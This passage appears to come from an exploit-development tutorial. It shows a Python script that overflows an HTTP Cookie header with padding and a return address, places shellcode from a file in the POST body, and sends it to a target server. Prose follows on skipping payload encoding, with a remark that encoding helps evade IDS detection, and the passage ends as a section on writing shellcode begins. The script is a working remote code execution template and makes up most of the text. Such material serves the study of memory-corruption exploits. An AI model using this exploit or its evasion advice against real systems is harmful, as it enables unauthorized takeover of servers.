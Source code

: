 ```python
        "Accept-Language: en-US,en;q=0.8,ru;q=0.6",
        "Content-length: [[shelllen]]",
        "Cookie: [[cookies]]",
        "",
        "",
        "[[shell]]"] 

def getBuffer():
    return "\r\n".join(buff)

exploit = ""

buff = getBuffer()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,80))

shellcode = "SS" + "SSSSSSSS" + 
              open("shellcode/shellcode.bin", "rb").read()

print "shellcode size: %d" % len(shellcode)

buff = string.replace(buff, "[[shell]]", shellcode)
buff = string.replace(buff, "[[shelllen]]", str(len(shellcode)))
send_buff = string.replace(buff, "[[cookies]]", 
              exploit + ("A" * (size - len(exploit))) + 
              "\x5c\x73\x59")

print(send_buff)
print "Sending buffer with length: " + str(len(send_buff))

s.send(send_buff)
back_buff = s.recv(1024)

print "Received size: %d" % len(back_buff)
print back_buff

s.close()
```

The script will read the shellcode from `shellcode.bin` binary file and insert it as the body of the message. Luckily for us, the POST message is designed for any kind of data and so we didn't have to do any encoding. Of course, in a real situation, it would be good to have some sort of encoding to avoid IDS detection.

# Shellcode

Now that we are able to control the Program Counter and point it a reliable location of a buffer we control, we can start building shellcode that does something useful. Unlike regular programs, shellcode won't get to be loaded by a loader. All we get is the ability to execute raw machine code. So, all bootstraping, linking and such would have to be handled manually.
